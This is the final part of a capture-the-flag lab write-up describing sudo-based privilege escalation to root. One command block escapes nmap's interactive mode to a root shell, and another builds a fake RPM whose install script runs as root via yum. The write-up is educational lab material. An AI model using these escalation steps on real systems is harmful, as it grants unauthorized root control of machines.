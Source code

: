 ```bash
sudo nmap --interactive
!sh

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
- we can use Yum to make fake package that executes /bin/sh as root

```bash
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF

sudo yum localinstall -y x-1.0-1.noarch.rpm
```

There are several other ways to escalate to root, but I'll end my writeup here. This box was fun & easy, Thanks for reading this far :D <3

- Tyr4n7

